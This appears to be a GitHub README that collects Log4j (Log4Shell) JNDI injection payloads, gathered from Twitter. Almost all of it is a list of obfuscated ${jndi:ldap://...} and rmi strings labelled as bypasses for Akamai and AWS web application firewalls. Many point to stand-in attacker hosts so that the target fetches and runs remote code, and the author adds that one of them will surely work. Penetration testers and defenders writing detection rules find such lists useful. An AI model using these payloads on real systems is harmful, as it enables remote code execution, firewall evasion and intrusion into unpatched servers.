 # log4j bypass payloads

Note these are copied from twitter, Can't mention authors or researchers individually. All I want to say Thank you very much.

#### Akamai Bypass Log4j
${jndi${123%25ff:-}:ldap://HOST:PORT/a}

#### Amazon AWS WAf Bypass

${j${k8s:k5:-ND}i${sd:k5:-:}ldap://HOST:PORT/a}

### Other bypass payloads


${lower:${:a:d:-${lower:}}jndi:}
${jndi:ldap://attacker.com/a}
${j${upper:${lower:n}}di:ldap://attacker.com/a}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:ldap://attacker.com/a}
${${env:BARFOO:-j}Ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${jndi:rmi://a.b.c}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://l}
${${::-j}ndi:rmi://}
${${lower:jndi}:${lower:rmi}://}
${${lower:${lower:jndi}}:${lower:rmi}://
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}:}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
${j${upper:n:-}di:ldap://example.com:1389
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://kjhkjhkjh}
${j${main:\k5:-Nd}i${spring:k5:-:}ldap://kjhkjhkjh}
${j${sys:k5:-nD}${lower:i${web:k5:-:}}ldap://kjhkjhkjh}
${j${::-nD}i${::-:}ldap://kjhkjhkjh}
${j${EnV:K5:-nD}i:ldap://kjhkjhkjh}
${j${loWer:Nd}i${uPper::}ldap}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${upper:}jndi:ldap://example.com/a}
${j${upper::-n}di:ldap://example.com:1389/a}
${"£$_"£:a:d:-${lower:j}n}di:
${:a:d:-${lower:}j}ndi:
${:a:d:-${lower:j}n}di:

I am sure one of them will work.
[My twitter](https://twitter.com/Chirag99Artani)
Thank You!
